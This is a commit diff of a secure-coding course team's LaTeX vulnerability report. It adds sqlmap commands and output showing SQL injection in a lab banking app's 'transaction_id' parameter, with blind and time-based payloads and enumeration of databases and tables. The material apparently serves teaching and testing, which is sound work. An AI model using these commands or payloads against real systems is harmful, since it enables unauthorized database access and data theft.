

Before and after one commit to SecureCodingTeam7/Phase2, a LaTeX document (main.tex, which reads sql_injection.tex): part of page 8 of 9 before the commit and two parts of pages 8 and 9 of 11 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
added code examples for sql injection

```diff
--- a/sql_injection.tex
+++ b/sql_injection.tex
@@ -15,8 +15,57 @@
 Risk: high \newline
 
 \section{Discovery}
-This vulnerability was discovered by the tool sqlmap.
-\begin{enumerate}
-\item \textit{sqlmap -u "host-ip/sc-course/views/transactions/tan\_entry.php?transaction\_id=x"}
-\end{enumerate}
+This vulnerability was discovered by the tool sqlmap. The result of the first Test in Listing \ref{listing:first_test} shows that GET-Parameter is vulnerable.
 
+
+
+\begin{lstlisting}[caption= First Test with result,label=listing:first_test]
+sqlmap -u "host-ip/sc-course/views/transactions/tan\_entry.php?transaction\_id=14"
+
+.....
+
+GET parameter 'transaction_id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
+sqlmap identified the following injection points with a total of 202 HTTP(s) requests:
+---
+Place: GET
+Parameter: transaction_id
+Type: boolean-based blind
+Title: MySQL boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (RLIKE)
+Payload: transaction_id=14' RLIKE (SELECT (CASE WHEN (6290=6290) THEN 14 ELSE 0x28 END)) AND 'umTL'='umTL
+
+Type: AND/OR time-based blind
+Title: MySQL < 5.0.12 AND time-based blind (heavy query)
+Payload: transaction_id=14' AND 5296=BENCHMARK(5000000,MD5(0x46744978)) AND 'knKI'='knKI
+---
+\end{lstlisting}
+
+The next step was to get the name of the database and the tables, as done in Listing \ref{sqlmap-get-tables}
+
+\begin{lstlisting}[caption = Get name and tables of database,label=sqlmap-get-tables]
+python sqlmap.py -u "192.168.56.101/sc-course/views/transactions/tan_entry.php?transaction_id=14" --dbs
+...
+available databases [10]:
+[*] banking_development
+[*] dvwa
+[*] information_schema
+[*] mysql
+[*] owasp10
+[*] performance_schema
+[*] phpmyadmin
+[*] samurai_dojo_basic
+[*] samurai_dojo_scavenger
+[*] test
+
+
+python sqlmap.py -u "192.168.56.101/sc-course/views/transactions/tan_entry.php?transaction_id=14" --tables -D banking_development
+
+Database: banking_development
+[5 tables]
++--------------+
+| payments     |
+| phinxlog     |
+| tan_numbers  |
+| transactions |
+| users        |
++--------------+
+\end{lstlisting}
```
Also changed, not shown: persistent_xss.tex (+9 -5 lines), sql_injection.tex (60 more changed lines).
